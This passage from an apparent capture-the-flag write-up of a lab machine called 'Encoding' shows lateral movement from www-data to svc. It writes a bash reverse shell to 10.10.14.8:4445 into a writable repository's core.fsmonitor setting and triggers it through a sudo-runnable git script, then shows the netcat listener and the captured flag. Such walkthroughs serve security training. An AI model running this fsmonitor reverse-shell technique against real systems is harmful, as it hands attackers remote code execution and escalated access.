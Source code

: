 ```bash
# group: svc
user::rw-
user:www-data:r--
group::r--
mask::r--
other::r--
```

With those permissions, www-data could write in .git. So I could overwrite the config file.

I added a command to run as the [file system monitor](https://github.com/justinsteven/advisories/blob/main/2022_git_buried_bare_repos_and_fsmonitor_various_abuses.md#poc---executing-arbitrary-commands-via-corefsmonitor) in the existing '.git/config' file and ran the script.

```bash
www-data@encoding:/tmp$ cat /var/www/image/.git/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
        fsmonitor = "bash -c 'bash -i >& /dev/tcp/10.10.14.8/4445 0>&1'"

www-data@encoding:/tmp$ sudo -u svc /var/www/image/scripts/git-commit.sh
```

I got a reverse shell as svc.

```bash
$ nc -klvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.198] 57242
svc@encoding:/var/www/image$

svc@encoding:/var/www/image$ cd
cd

svc@encoding:~$ ls -la
ls -la
total 40
drwxr-x--- 5 svc  svc  4096 Jan 23 18:23 .
drwxr-xr-x 3 root root 4096 Jan 13 16:25 ..
lrwxrwxrwx 1 svc  svc     9 Nov 11 14:31 .bash_history -> /dev/null
-rw-r--r-- 1 svc  svc   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 svc  svc  3771 Jan  6  2022 .bashrc
drwx------ 3 svc  svc  4096 Jan 13 16:25 .cache
-rw-rw-r-- 1 svc  svc    85 Nov  8 16:37 .gitconfig
drwx------ 3 svc  svc  4096 Jan 13 16:25 .gnupg
-rw-r--r-- 1 svc  svc   807 Jan  6  2022 .profile
drwx------ 2 svc  svc  4096 Jan 13 16:25 .ssh
-rw-r----- 1 root svc    33 Mar  5 12:05 user.txt

svc@encoding:~$ cat user.txt
cat user.txt
REDACTED
```
